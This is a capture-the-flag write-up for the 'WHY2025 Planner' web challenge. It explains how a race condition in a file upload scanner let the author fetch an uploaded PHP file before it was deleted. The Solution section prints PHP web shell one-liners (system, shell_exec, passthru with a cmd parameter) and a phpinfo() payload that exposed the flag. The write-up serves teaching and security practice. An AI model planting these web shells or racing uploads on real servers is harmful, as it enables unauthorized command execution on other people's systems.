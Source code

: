 ```yaml
---
name: WHY2025 Planner (2025)
event: WHY CTF 2025
category: Web
description: Writeup for WHY2025 Planner (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# WHY2025 Planner

## Description

> We at WHY2025 are a well oiled machine, this is because we have this awesome [planningtool](https://why2025planning.ctf.zone) we are developing, please check it out and add yourself to it!

## Solution

We register/login and find a planning tool. We can add bullet points, but there doesn't appear to be any HTMLi.

![](images/0.PNG)

More importantly, we can upload a file. There is no filter on the file extension or content-type, but our file is deleted immediately after the scan. According to the JS source, the site is expecting JSON content.

```javascript
document.getElementById("uploadForm").addEventListener("submit", async function (e) {
    e.preventDefault();
    const formData = new FormData(this);
    const statusDiv = document.getElementById("uploadStatus");

    statusDiv.textContent = "Uploading and scanning file...";
    statusDiv.className = "";

    const response = await fetch("upload.php", {
        method: "POST",
        body: formData,
    });

    const text = await response.text();

    // Match multiple JSON objects: greedy split on outermost }
    const messages = text.match(/{[^}]+}/g);

    if (!messages) {
        statusDiv.textContent = "Invalid response.";
        statusDiv.className = "error";
        return;
    }

    statusDiv.innerHTML = ""; // clear previous output

    messages.forEach((rawJson) => {
        try {
            const data = JSON.parse(rawJson);
            const msg = document.createElement("div");
            msg.textContent = data.message;
            msg.className = data.status === "fail" || data.status === "deleted" ? "error" : "success";
            statusDiv.appendChild(msg);
        } catch (err) {
            const errDiv = document.createElement("div");
            errDiv.textContent = "Invalid JSON: " + rawJson;
            errDiv.className = "error";
            statusDiv.appendChild(errDiv);
        }
    });
});
```

However, even when sending a JSON file, the server says the file was deleted after scan (wrong type). I thought maybe we could fuzz file extensions/content-types, but then I remembered a Portswigger lab I solved in the past.

It was a race condition where users could upload files, but the file would be deleted quickly by the AV/firewall. If an attacker sent the file upload request at the same time as \[several\] requests to access the file, one of them might slip through before the file is deleted. For this, we need to know the location/filename. Luckily for us, this is already provided in the error feedback.

### Race Condition

To test the hypothesis, I created a group of tabs in burp repeater. The first uploaded a valid JSON file and the next ~10 would request the file. Sending the group of requests using the [last-byte sync (aka single packet attack)](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local) would result in some of the responses showing the contents of the JSON file, while others showed a 404 not found error.

I switched the file type to a basic PHP shell, with the rest of the repeater tabs making a GET request to `/uploads/new.php?cmd=whoami`

```php
<?php system($_GET['cmd']); ?>
```

Unfortunately, all these requests came back with a 500 internal server error, or 404 not found. I changed the PHP file contents to a more benign one, and it worked (printed "meow").

```php
<?php echo("meow") ?>
```

I tried a few alternative functions for command execution.

```php
<?php system($_REQUEST["cmd"]); ?>
<?php echo shell_exec($_GET['cmd']); ?>
<? passthru($_GET["cmd"]); ?>
```

They all failed! Eventually I tried to view the `phpinfo()`

```php
<?php phpinfo(); ?>
```

![](images/1.PNG)

When checking the responses, I see one with a 200 OK and long response body. Searching for "flag" reveals the correct flag 😎

![](images/2.PNG)

Flag: `flag{1cdaf6ddac4je1a91a8dcb8e01llbfbb}`
